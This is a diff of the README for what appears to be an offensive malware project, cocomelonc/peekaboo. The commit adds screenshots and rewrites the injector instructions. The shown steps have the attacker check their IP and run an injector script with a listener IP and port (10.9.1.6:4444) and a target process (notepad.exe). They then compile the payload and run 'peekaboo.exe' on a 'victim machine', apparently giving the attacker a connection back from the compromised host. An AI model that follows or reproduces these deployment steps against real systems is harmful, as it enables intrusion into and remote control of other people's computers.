

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; pictures changed too: screenshots/6.png (added), screenshots/7.png (added), screenshots/8.png (added); blank space fills up the shorter version.

Commit message:
update readme: add screenshots for injector logic

````diff
--- a/README.md
+++ b/README.md
@@ -42,17 +42,28 @@ example:
 
 ## 2.Injector
 ### on attacker machine:
-run python script on linux:
+check attacker ip:
 ```bash
-python3 peekaboo-inj.py -l 10.10.14.3 -p 4444
+ip a
 ```
+
+![check IP](./screenshots/6.png?raw=true)
+
+run python script on linux (for example process notepad.exe):
+```bash
+python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
+```
+
+![encrypting](./screenshots/7.png?raw=true)
 
 compile in VS - windows machine x64:
 ```cmd
 .\compile-inj.bat
 ```
 
+![compile in attacker windows x64](./screenshots/8.png?raw=true)
+
 ### then on victim machine (windows x64):
-```
+```cmd
 .\peekaboo.exe
 ```
````
Also changed, not shown: other parts of README.md (+12 -3 lines), screenshots/10.png (added), screenshots/9.png (added), 2 other files.
